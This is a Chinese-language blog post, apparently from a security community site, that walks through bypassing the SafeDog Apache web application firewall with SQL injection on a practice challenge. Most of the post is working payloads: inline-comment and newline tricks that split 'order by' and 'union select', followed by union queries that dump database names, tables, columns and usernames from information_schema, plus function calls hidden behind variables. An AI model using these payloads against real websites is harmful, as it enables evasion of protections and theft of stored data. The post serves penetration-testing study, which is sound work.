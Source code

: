 ```json
{
  "date": "2020.04.20 02:40",
  "tags": ["bypass", "安全狗", "sql注入"],
  "description":"nothing"
}
```


最近虽然比较忙,但是还是想写点技术方面的东西做个记录。

正好给公司攻防环境出了一道web的题加了狗，就试着绕一下分享出来吧.

# 环境预览

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411152727-e55c5b3a-7bc5-1.png)
用了最新版的安全狗apache版本4.0

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153001-412b1776-7bc6-1.png)
漏洞环境

# 绕过and 1=1

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153404-d20f09aa-7bc6-1.png)
and 1=1拦截



![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153425-dead60da-7bc6-1.png)
and ord(0x1) == and True
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153511-fa1c4dc2-7bc6-1.png)
and ord(0x0) == and False

# 绕过 order by 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153559-16b1b170-7bc7-1.png)
正常order by 被咬

在 order 和by之间放点无效字符，然后再换个行

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153729-4c5d9744-7bc7-1.png)

```sql
order /*|--|*/--+%20%0Aby 3%23 绕过
```

# 绕过 union select 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411154251-0c305aca-7bc8-1.png)
union select 1,2,3  被咬


这里用内连注释+空语句+注释+换行

注：MySQL数据库为了保持与其他数据库兼容，特意新添加的功能。 为了避免从MySQL中导出的SQL语句不能被其他数据库使用，它把一些 MySQL特有的语句放在 /*! ... */ 中，这些语句在不兼容的数据库中使用时便 不会执行。而MySQL自身却能识别、执行。  /*50001 */表示数据库版本>=5.00.01时中间的语句才会执行。 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155107-33b812bc-7bc9-1.png)

```sql
 /*!union*/ /*!*/ --+1%0Aselect 1,2,3 %23 绕过
```

# 获取数据

不演示被咬的了...

到了这里就比较简单了

内连注释+空语句+注释+换行 可绕所有

### 查库

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155459-be4761c6-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!schema_name*/) /*!from*/ information_schema.schemata--+*/%23
```

### 查表

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155539-d60cffc8-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!table_name*/) /*!from*/ information_schema.tables where table_schema=0x747261696E--+*/%23
```

### 查字段

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155624-f087b3f2-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!column_name*/) /*!from*/ information_schema.columns where table_name=0x7573657273--+*/%23
```

### 查数据

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155258-75fef2da-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT%201,2,concat(/*!username*/)%20/*!from*/%20users--+*/%23
```

### 系统函数

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411160010-7755eeda-7bca-1.png)
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411160031-842ab618-7bca-1.png)

这里常规的方法还是被咬，但是用变量处理一下就直接过了。


```sql
/*!union*//*!*/--+1%0ASELECT 1,@s:=database/**/(),1%23

/*!union*//*!*/--+1%0ASELECT 1,@s:=user/**/(),1%23
```